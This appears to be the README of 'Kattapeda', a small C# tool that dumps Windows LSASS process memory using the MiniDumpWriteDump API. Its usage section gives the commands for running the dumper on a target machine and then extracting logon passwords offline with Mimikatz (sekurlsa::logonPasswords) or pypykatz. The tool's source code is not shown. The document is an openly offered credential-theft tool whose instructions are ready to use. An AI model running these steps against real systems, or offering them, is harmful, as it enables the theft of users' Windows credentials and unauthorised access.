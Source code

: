 
██╗  ██╗ █████╗ ████████╗████████╗ █████╗ ██████╗ ███████╗██████╗  █████╗ ");
██║ ██╔╝██╔══██╗╚══██╔══╝╚══██╔══╝██╔══██╗██╔══██╗██╔════╝██╔══██╗██╔══██╗");
█████╔╝ ███████║   ██║      ██║   ███████║██████╔╝█████╗  ██║  ██║███████║");
██╔═██╗ ██╔══██║   ██║      ██║   ██╔══██║██╔═══╝ ██╔══╝  ██║  ██║██╔══██║");
██║  ██╗██║  ██║   ██║      ██║   ██║  ██║██║     ███████╗██████╔╝██║  ██║");
╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝      ╚═╝   ╚═╝  ╚═╝╚═╝     ╚══════╝╚═════╝ ╚═╝  ╚═╝");
![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

Kattapeda is a very simple LSASS memory dump tool in C# based on Win32 `MiniDumpWriteDump` API. 
The dump file created, can be exploited offline with Mimikatz or Pypykatz.

>[!CAUTION]
> The dump will fail if the memory is LSA protected. Consequently, the created file will be empty. Check the prerequisite before running kattapeda.

#### USAGE
- compile the .cs source code
- on target, execute the program:
`.\kattax64.exe c:\windows\tasks\mini.dmp`
- offline, use pypykatz or mimikatz to loot the content of the lsass memory dump using:
`mimikatz # sekurlsa::minidump lsass.dmp sekurlsa::logonPasswords`
or:
`pypykatz lsa minidump lsass.dmp`

The content of the dumped memory will be written into the file passed as argument. By default, the program uses `c:\windows\tasks\mini.dmp`




